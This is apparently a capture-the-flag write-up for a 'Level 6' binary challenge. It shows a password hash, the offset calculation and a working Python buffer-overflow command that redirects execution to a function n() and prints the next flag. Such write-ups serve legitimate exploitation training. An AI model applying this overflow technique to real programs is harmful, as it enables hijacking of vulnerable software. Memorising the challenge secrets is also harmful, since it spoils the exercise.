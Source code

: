 # Level 6
*password : d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31*

## Analyze

```
$ scp -P 4242 level6@192.168.56.108:level6 binary/
```

0x40 = 64\
`n()` address : 0x08048454

## Buffer overflow

- execute `n()`
- compute offset : 64 + 4 * 2 = 72

```
$ ./level6 $(python -c 'print "a" * 72 + "\x54\x84\x04\x08"')
f73dcb7a06f60e3ccc608990b0a046359d42a1a0489ffeefd0d9cb2d7c9cb82d
```
